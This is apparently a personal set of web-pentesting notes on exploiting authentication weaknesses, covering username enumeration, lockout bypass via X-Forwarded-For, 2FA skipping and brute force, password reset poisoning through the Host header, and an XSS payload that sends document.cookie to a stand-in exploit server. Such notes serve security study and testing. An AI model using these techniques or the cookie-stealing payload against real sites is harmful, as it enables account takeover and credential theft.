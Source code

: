 	# Authentication Vulns 

## Introduction 
Authentication vulnerabilities can allow attackers to gain access to sensitive data and functionality

## Where to find ? 
- everywhere 
## How to exploit

### Username enumeration and brute-force
- submit several bad login attempts for an account u control 
- After 10 failed login attempts, if the application does not return a message about account lockout, attempt to log in correctly. If it works, then there is no lockout mechanism.
	- run brute force attack
		- submit a request with a valid username and valid password.
		- submit a request with a valid username and invalid password.
		- submit a request with an invalid username
		- check for diff between responses (u can use comparer in burp)
			- status code
			- any redirects 
				- 302 when password is correct
			- info displayed on screen 
				- wrong password when username is correct
			- HTML page source
			- time to process the request
				- ![[Pasted image 20230908165356.png]]
				- if the username is correct => long time process 
- if the account is locked, try to bypass the lock mechanism 
	- `X-Forwarded-For: randomIp` => change the ip where the requests is sent from
	- if the lock happens after 4 fails attempts e.g, try to do a successful login in the 4th request, then do 3 brute force requests, etc .. 
- sometimes u will only get locked if the user u trying to bruteforce his password exists, hence, u can enumerate usernames
	- once u got the right username, brute force his password
### 2FA Vulns
- login with an account u have a control on, enter the 2FA code, check the home page path
- if u enter the victim's user and password, then a 2FA code is required, try to just go to the home page without entering the 2FA code, because the website may not check whether u enterd the 2FA code or not
- in the below case, if there is a cookie used to determine which account will be logged into, u can brute force the victim 2FA code if there is no brute force protection mechanism
```
POST /login-steps/second HTTP/1.1
Host: vulnerable-website.com
Cookie: account=victim-user
...
verification-code=123456
```
### Keeping users logged in Auth
- ![[Pasted image 20230908201343.png]]
	- crack the MD5 hash, make use of payload processing in burp
- it's possible to obtain the victim's cookie via xss vuln
```js
<script>document.location='//YOUR-EXPLOIT-SERVER-ID.exploit-server.net/'+document.cookie</script>
```


### Resetting passwords using a URL -  Password reset poisoning
- u can specify which user u will reset his password because the token is not validated based on specific user
	- ![[Pasted image 20230908210731.png]]
	- change the username to the victim username
	- This token should expire after a short period of time and be destroyed immediately after the password has been reset.
- If the URL that is sent to the user is dynamically generated based on controllable input, such as the Host header, it may be possible to construct a password reset poisoning attack
	- The attacker obtains the victim's email address or username, as required, and submits a password reset request on their behalf. When submitting the form, they intercept the resulting HTTP request and modify the** Host header or X-Forwarded-Host** so that it points to a domain that they control. For this example, we'll use `evil-user.net`.
	- The victim receives a genuine password reset email directly from the website`https://evil-user.net/reset?token=0a1b2c3d4e5f6g7h8i9j`
	- when he click the link, u will receive the token
	- supply the victim token and change his password :)
### Password Change Functionality
- submit a valid current password and new and confirm, (valid request)
- submit a valid current password, but unmatched new and confirm  pass's
- submit an invalid current password, but matched new and confirm pass's
- submit an invalid current password, but unmatched new and confirm pass's
### Vulnerable Transmission of Credentials
- if HTTP only ? 
	- use wireshark as POC to sniff the data being submitted
### Insecure Forgot Password Functionality
- perform a complete walk-through of the forgot password functionality using an account you have control of while intercepting the requests / responses in a proxy.
- Review the functionality to determine if it allows for username enumeration or brute- force attacks
- If the application generates an email containing a recovery URL, obtain a number of these URLs and attempt to identify any predictable patterns or sensitive information included in the URL. Also check if the URL is long lived and does not expire.
### Defects in Multistage Login Mechanism
- perform a complete walk-through using an account you have control of while intercepting the requests / responses in a proxy.
- Review the functionality to determine if it allows for username enumeration or brute- force attacks.
- ![[Pasted image 20230908161102.png]]
